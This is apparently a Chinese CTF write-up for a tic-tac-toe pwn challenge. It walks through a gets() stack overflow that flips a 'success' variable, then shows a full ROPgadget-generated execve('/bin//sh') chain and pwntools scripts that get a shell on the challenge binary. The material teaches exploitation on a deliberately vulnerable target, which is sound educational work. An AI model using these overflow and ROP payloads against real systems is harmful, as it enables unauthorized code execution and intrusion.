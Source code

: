 # 生活在博弈树上

很明显这道题题面是根据 2020 年浙江的满分高考作文《生活在树上》魔改而来的，没有任何逻辑性可言的版本。打开题目后，就会发现它其实是一个井字棋，并且在算法（Minimax）实现正确的情况下，后手的人类是赢不了先手的电脑的。

既然是信息安全大赛，那肯定要用信息安全的思路去解题。如果用 CTF 的方式去分类的话，这应该算是一道典型的简单 pwn（二进制漏洞利用）题了。

## 始终热爱大地

打开源代码读过代码，我们就能轻易发现一个很危险的信号：

```c
printf("Your turn. Input like (x,y), such as (0,1): ");
gets(input);
x = input[1] - '0';
y = input[3] - '0';
```

尽管很多初学 C 语言的同学会使用 `gets()` 去读取一行字符串（至少我所观察到很多没有编程基础初学 C 语言的大一新生会这么做，因为确实“很方便”），但是这个函数是非常危险的：它不会限制输入的长度，可以构造出长度大于接受输入的数组长度的字符串，从而实现一些“意料之外”的事情。1988 年，知名的 [Morris Worm](https://en.wikipedia.org/wiki/Morris_worm) 就通过[利用程序 `figure` 中使用 `gets()` 获取输入的问题](http://www.cs.unc.edu/~jeffay/courses/nidsS05/attacks/seely-RTMworm-89.html#p4.5.2)，对当时互联网上的机器带来了巨大的破坏。

为了获得第一个 flag，我们的目标是让程序运行 `success` 分支，输出 flag。正常下井字棋是肯定赢不了的（除非我代码写错了 :)），那么我们就需要在程序运行时想办法让 `success` 的值变为 `true` (1)，然后就能立刻跳出 `while` 循环而胜利。可以注意到，在变量定义的时候，`success` 就贴在 `input` 数组的旁边。

```c
bool success = false;  // human wins?
char input[128] = {};  // input is large and it will be ok.
```

那么我们能不能在 `gets` 的时候，就把 `success` 弄成 `true` 呢？对于本题给出的二进制程序文件，答案是可以的！（视编译器、编译选项的不同，这个答案可能会发生变化，所以要以给定的二进制文件为准）

### 分析

为了判断栈上 `input` 和 `success` 这两个变量的位置，我们需要使用调试工具，或者反编译工具去判断。这里以 IDA 为例。

![Variables on stack](README.assets/1.png)

可以看到，变量 `input` 距离栈帧基址 (BP) 有 0x90 bytes，变量 `success` 距离栈帧基址有 0x1 bytes，所以输入 143 个字符之后，输入值为 0x1 的字符（注意，不是 `'1'`），将 `success` 覆盖为 `true` (1) 即可。

怎么发送自己的 payload 呢？方法有很多，对于 pwn 类型的题目来说，最常用的工具是 pwntools。

```python
from pwn import *

context.log_level = "debug"
io = process("./tictactoe")

payload = "(2,2)" + (143 - 5) * 'a' + "\x01"
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

如果需要发送 payload 到服务器，需要把 `io` 修改到 `io = remote(ip, port)` 的格式，并且加上处理 token 的代码。


## 升上天空

第一题的 flag 提示我们要 getshell 得到第二个 flag。使用 `checksec` 和 `file` 检查程序文件。

```shell
$ checksec -f tictactoe
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1891 Symbols    Yes     14              55      tictactoe
$ file tictactoe
tictactoe: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=669c2d3e3b669e5d05e627b3c94640234927e172, not stripped
```

我们可以看到：

- NX enabled，表明可以被程序写入的内存页是不可执行的。也就是说，我们不能直接用 `gets()` 在栈上放置可执行的 shellcode，然后让程序去执行。
- Canary found，说明程序中有函数有 canary（但是如果去看 `main()` 的汇编就能发现，`main()` 是没有 canary 的），结合 `file` 输出 `statically linked`，这里的 canary 提示可能是被静态链接入程序的 C 库引入的。
- NO PIE，意味着没有地址随机化，我们不需要考虑动态获取地址的问题。

所以考虑使用 ROP 来获取服务器的 shell。由于这个程序是静态链接的，被链接的 C 库中就包含了很多可以被利用的 gadgets，所以考虑使用 ROPgadget 来自动生成 payload。

ROPgadget 生成的 payload 前面需要加上 padding，使得 payload 能够正好从函数返回地址开始覆盖。从上图我们可以看到，为了从 r（返回地址）开始，我们的 padding 长度应该是 0x8 - (-0x90) = 152。（s 代表是保存的寄存器等调用者函数的现场）

### exp

```shell
$ ROPgadget --binary tictactoe --ropchain
（中间的输出省略）
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402bf4) # syscall
```

```python
from struct import pack
from pwn import context, process

context.log_level = "debug"
io = process("./tictactoe")

payload = b"(2,2)" + (143 - 5) * b'a' + b"\x01" + (152 - 144) * b'a'
# 省略重复的 payload 部分。
# 注意在 Python 3 中 struct.pack 返回的是 bytes 类型，所以为了拼接，payload 也需要是 bytes 类型。
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```
